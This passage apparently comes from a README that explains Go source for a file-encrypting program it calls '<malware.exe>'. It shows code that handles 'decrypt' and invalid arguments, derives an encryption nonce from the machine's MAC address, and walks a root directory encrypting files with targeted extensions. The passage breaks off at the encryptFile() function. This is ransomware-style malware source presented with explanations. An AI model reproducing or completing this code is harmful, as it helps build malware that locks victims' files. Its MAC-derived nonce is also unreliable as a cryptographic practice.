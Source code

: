         encryptFiles()

    ```
  - **Decrypt Argument:** When the program is executed with the `decrypt` argument, it starts the decryption process.
    ```go
    case len(os.Args) == 2 && os.Args[1] == "decrypt":
        decryptFiles()
    ```
  - **Invalid Arguments:** If the arguments do not match any of the expected cases, the program provides usage instructions.
    ```go
    default:
        fmt.Println("Invalid arguments")
        fmt.Println("Usage: run <malware.exe> to encrypt files, run <malware.exe decrypt> to decrypt files")
    ```
### 3. Encryption Process
- **encryptFiles() Function:**

  This function drives the encryption process:

  - **MAC Address Retrieval:** The program retrieves the machine’s MAC address using the `getMACAddress()` function. This address is unique to each machine and is used to generate a nonce for encryption.
  ```go
  macAddress := getMACAddress()
  if macAddress == nil {
      fmt.Println("Error getting mac address")
      return
  }
  ```
  - **Nonce Generation:** A nonce (number used once) is generated from the MAC address to ensure the encryption is unique to the machine.
  ```go
  nonce := generateRandomBytes(macAddress, 12)
  ```
  - **File Walkthrough:** The program then walks through the `rootDir`, checking each file’s extension. If the file has an extension listed in `extensionsToEncrypt`, it is encrypted using the `encryptFile()` function.
  ```go
  _ = filepath.Walk(rootDir, func(path string, info os.FileInfo, err error) error {
      if err != nil {
          fmt.Println("Error walking root directory")
          return err
      }
      if info.IsDir() {
          return nil
      }
      extension := strings.ToLower(filepath.Ext(path))
      if isValidExt(extension) {
          pathToEncrypt := path + encryptedExtension
          encryptFile(path, pathToEncrypt, nonce)
      }
      return nil
  })
  ```
- **encryptFile() Function:**
  This function handles the actual encryption of a file:
